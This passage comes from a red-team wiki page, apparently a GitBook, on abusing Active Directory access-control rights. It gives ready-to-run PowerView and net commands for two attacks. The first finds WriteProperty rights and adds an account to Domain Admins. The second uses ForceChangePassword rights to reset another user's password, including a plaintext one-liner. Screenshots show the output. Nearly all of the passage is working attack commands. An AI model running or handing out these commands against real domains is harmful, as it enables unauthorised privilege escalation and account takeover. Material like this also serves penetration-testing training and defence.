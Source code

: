 ![](<../../.gitbook/assets/Screenshot from 2018-11-08 11-25-23.png>)

### WriteProperty (Self-Membership)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 15-21-35.png>)

```csharp
net group "domain admins" spotless /add /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 15-22-50.png>)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-30-11.png>)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-31-52.png>)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 14-11-25.png>)

...or a one liner if no interactive session is not available:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 12-58-25.png>)
